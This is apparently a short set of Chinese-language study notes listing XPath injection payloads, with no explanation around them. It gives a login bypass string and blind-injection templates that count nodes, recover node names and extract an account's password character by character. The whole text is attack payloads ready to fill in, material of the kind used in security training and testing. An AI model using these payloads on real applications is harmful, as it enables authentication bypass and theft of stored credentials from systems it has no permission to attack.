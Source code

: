 - # 注入示例
	- ```xpath
	  admin' or 1=1 or '
	  ```
	- 爆节点数
		- ```xpath
		  admin' or count(/*)>{} or '
		  ```
	- 爆节点名
		- ```xpath
		  admin' or substring(name(/*),{},1)='{}' or '
		  admin' or substring(name(/root/accounts/*[position()=1]),{},1)='{}' or '
		  ```
	- 爆内容
		- ```xpath
		  admin' or substring(/root/accounts/*[position()=2]/password/text(),{},1)='{}' or '
		  ```